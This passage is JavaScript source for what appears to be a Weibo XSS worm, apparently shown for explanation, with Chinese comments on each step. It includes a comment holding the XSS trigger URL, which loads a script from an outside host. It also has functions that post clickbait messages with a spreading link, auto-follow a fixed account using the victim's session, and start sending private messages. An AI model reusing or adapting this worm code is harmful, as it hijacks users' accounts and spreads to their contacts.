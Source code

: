 ```js
    }
    return id_arr;
}

function random_msg(){
    // 使用短地址服务，构造 XSS 传播连接，隐藏自己的恶意 js 脚本，
    // 这里正是 XSS 漏洞的触发位置
 //http://weibo.com/pub/star/g/xyyyd%22%3E%3Cscript%20src=//www.2kt.cn/images/t.js%3E%3C/script%3E?type=upd
    link = ' http://163.fm/PxZHoxn?id=' + new Date().getTime();;
    // 话题列表 
    var msgs = [
        '郭美美事件的一些未注意到的细节：',
        '建党大业中穿帮的地方：',
        '让女人心动的 100 句诗歌：',
        '3D 肉团团高清普通话版种子：',
        '这是传说中的神仙眷侣啊：',
        '惊爆!范冰冰艳照真流出了：',
        '杨幂被爆多次被潜规则:',
        '傻仔拿锤子去抢银行：',
        '可以监听别人手机的软件：',
        '个税起征点有望提到 4000：']; 


    //随机选取话题,加上之前的传播连接作为微博内容 
    var msg = msgs[Math.floor(Math.random()*msgs.length)] + link;
    msg = encodeURIComponent(msg); //对内容进行 Url 编码
    return msg;
}

// 利用 Ajax 发送 POST 请求
function post(url,data,sync){
    xmlHttp = createXHR();
    xmlHttp.open("POST",url,sync);
    xmlHttp.setRequestHeader("Accept","text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8");
    xmlHttp.setRequestHeader("Content-Type","application/x-www-form-urlencoded; charset=UTF-8");
    xmlHttp.send(data);
}

// 发表微博，话题随机
function publish(){
    url = 'http://weibo.com/mblog/publish.php?rnd=' + new Date().getTime();
    data = 'content=' + random_msg() + '&pic=&styleid=2&retcode='; //使用 random_msg 生成随机话题
    post(url,data,true);
}

// 自动关注用户
function follow(){
    url = 'http://weibo.com/attention/aj_addfollow.php?refer_sort=profile&atnId=profile&rnd=' + new Date().getTime();
    // 使用当前页面存储的$CONFIG.$uid 构造自动关注数据包
    data = 'uid=' + 2201270010 + '&fromuid=' + $CONFIG.$uid + '&refer_sort=profile&atnId=profile';
    post(url,data,true);
}

// 发送私信
function message(){
    url = 'http://weibo.com/' + $CONFIG.$uid + '/follow'; //构造用户关注用户列表页 Url
    ids = getappkey(url); //获取被关注用户的 Appkey 数组
    id = ids.split('||'); //分割出每个被关注用户的 Appkey
    for(i=0;i<id.length - 1 & i<5;i++){
        //构造私信发送 Url
```
